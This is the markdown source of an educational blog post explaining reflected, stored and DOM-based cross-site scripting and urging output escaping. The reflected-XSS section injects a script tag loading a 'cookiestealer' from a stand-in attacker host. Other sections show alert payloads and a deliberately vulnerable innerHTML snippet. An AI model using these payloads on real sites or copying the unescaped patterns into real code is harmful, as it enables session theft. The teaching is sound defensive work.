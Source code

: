```yaml
---
title: Cross Site Scripting (XSS)
lead: At the beginning, web pages was very static. They were written in html, and the web browser had one job, to render the html to a page filled with text, images and links. After a few years, the developers wanted more, and JavaScript got introduced.Together with JavaScript came a new breed of vulnerabilities, where the attackers could exploit the possibility to run code in browsers, this was called Cross Site Scripting or XSS.
author: Stian Fredrikstad
links:
  - title: CSRF
    link: https://security.christmas/2018/4
    body: #4 about Cross Site Request Forgery
  - title: Injections
    link: https://security.christmas/2018/8
    body: #8 about Injections
---
```


JavaScript has a lot of possibilities, and a lot of responsibility in modern web applications. First of all, JavaScript can see and read (almost) everything that is sent to the browser, e.g. all the countermeasures we wrote about [CSRF](https://security.christmas/2018/4) some days ago, are no longer valid. This is because JavaScript can read everything, even if it is hidden on the page, send and read as the user.

In addition, JavaScript can read secrets hidden under the domain, like the session cookie. There are countermeasures against it, because JavaScript does not need to explicitly set the cookie on the requests, this is done by the browser automatically. By setting the flag `HttpOnly`, a cookie can never be read by JavaScript, only sent as a header on http requests. But it is a nice example of what we can do, so let us use it.

An XSS can happen in many circumstances, but the main reason is that a user can inject unescaped html in a website.This is similar to what we discussed in the post about [Injections](https://security.christmas/2018/8), and in html (or xml), the `<`, `>` and `"` are very important for the markup, there are more, but let us start with those. An escaped version of `<` is `&lt;` and `>` is `&gt;` and `"` is `&quot;`, short for "less than, "greater than" and quote if you want to remember those.

### Reflected XSS

If we imagine we are Google. We have a search input field named `q`, where the query is inserted, and the query is put as a get parameter in the url. If we insert `santa`, and click search, the url will be `https://www.google.com?q=santa`. And the input field will render like `<input type="text" name="q" value="santa" />`. If the rendering of the `value` in the input field is not escaped. An attack could be to insert

```html
santa" /><script src="https://www.santastealscookies.com/cookiestealer"></script>
```

This will render the input field like

```html
<input
  type="text"
  name="q"
  value="santa"
/><script src="https://www.santastealscookies.com/cookiestealer"></script
>" />
```

As we see, `" />` closes the input field and let the attacker continue to write html. Which in this case let santa steal all the cookies from the users who click on the link with the malicious input.

This is called "Reflected XSS", because the input from the user is reflected on the website But this does also limit the reach of such an attack, because the user often needs to click on something before it works.

### Stored XSS

We also have the "Stored XSS", which is quite similar to "reflected XSS", but here the malicious input is stored on the server, and could possibly affect all users. If Santa creates a blog where he write about his christmas preparations, he would likely create a comment section for input from his fans. The comments are printed out in the bottom of each blog post, but Santa forgot to escape the comments on the web server. If the Grinch finds this, and creates a comment with the input:

```html
<script>
  alert('The Santa does not exist');
</script>
```

All the readers of that blog post are met by a popup with the text "Santa does not" exist.

As we see in this last example, the XSS does not need to happen in an attribute. It can happen all places where text is rendered. That is why the web server should always escape everything, except those places you actually write html code.

### DOM based XSS

The last type of XSS is "DOM based XSS". The main difference between this and the other two, is that it all happens in JavaScript. JavaScript has methods like `innerHTML`, which can be used to fill another element with text, but it does also allow html to be written.

As a simple example, we have a `div` with the id `website`, where we want to display the url of the current website. Code to fill this could look like:

```html
<script>
  document.getElementById('website').inneHTML = document.baseURI;
</script>
```

An example of a malicious url would be `https://www.santaisbad.com/#<script>alert("Santa is good");</script>`. And we will get the well known alert box. But the most important is that the developer does not even know that the website is being exploited. The web browser does not send the `#`, and everything after it to the server, which makes it difficult discover.

In addition to escaping what we render, to get rid of "DOM based XSS", we need to go through the code and use the correct methods (or even delete vulnerable code where this can happen, like `eval`). Instead of using innerHTML, we should have used innerText and so on

As a final reminder, escape everything, and take care when rendering mixes of text and html.

In many frameworks, both server and client side, it is the default behaviour to escape output, but you need to check this to be sure.
